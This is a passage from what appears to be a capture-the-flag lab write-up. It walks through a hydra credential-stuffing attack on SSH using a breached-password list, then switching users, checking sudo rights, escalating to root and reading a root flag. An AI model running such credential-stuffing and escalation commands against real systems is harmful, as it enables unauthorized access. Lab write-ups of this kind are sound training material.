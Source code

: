 **2. Restart the SSH service:**
```bash
sudo /bin/systemctl restart sshd
```

**3. Conduct the credential stuffing attack:**
```bash
hydra -L users.txt -P breachedCreds.txt $ip ssh
```
<details><summary>Hydra Output</summary></details>

---

### Sys-admin, Elevate to Root

#### Steps:

**1. Switch from `net-admin` to `sys-admin`:**
```bash
su sys-admin
```

**2. Enumerate `sys-admin` sudo privileges:**
```bash
sudo -l
```
<details><summary>Sudo Privileges for sys-admin</summary></details>

**3. Switch to the root user:**
```bash
sudo su
```

**4. Verify root access:**
```bash
id
```
<details><summary>Root Verification Output</summary></details>

**5. Obtain the root flag:**
```bash
cat /root/rootFlag.txt
```

